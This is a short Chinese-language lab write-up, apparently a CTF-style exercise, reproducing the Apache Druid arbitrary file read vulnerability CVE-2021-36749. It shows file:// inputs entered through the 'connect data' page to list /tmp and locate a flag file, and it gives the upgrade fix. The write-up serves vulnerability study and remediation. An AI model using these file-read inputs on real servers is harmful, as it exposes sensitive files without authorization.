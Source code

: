 # Apache Druid任意文件读取漏洞（CVE-2021-36749）
## 漏洞描述
- CVE-2021-36749 是 Apache Druid 中的一个任意文件读取漏洞，允许攻击者通过构造特定请求，读取服务器上的任意文件，从而可能导致敏感信息泄露。
- 影响版本：Apache Druid <= 0.21.1

## 复现步骤
启动环境后，进入https界面后点击connect data
![](./img/启动环境.png)
![](./img/进入http界面.png)

利用漏洞特性输入下面指令,可以发现目录结构和敏感文件
```
file:///tmp
```
![](./img/输入urls.png)

依次输入下面指令进行文件结构的遍历尝试，发现flag位于/tmp目录下，至此实验完成
```
file:///flag
file:///root/flag
file:///home/druid/flag
file:///opt/flag
file:///tmp/flag
file:///flag.txt
file:///root/flag.txt
```
![](./img/找到flag.png)

## 漏洞修复
升级至Apache Druid 0.22.0及以上版本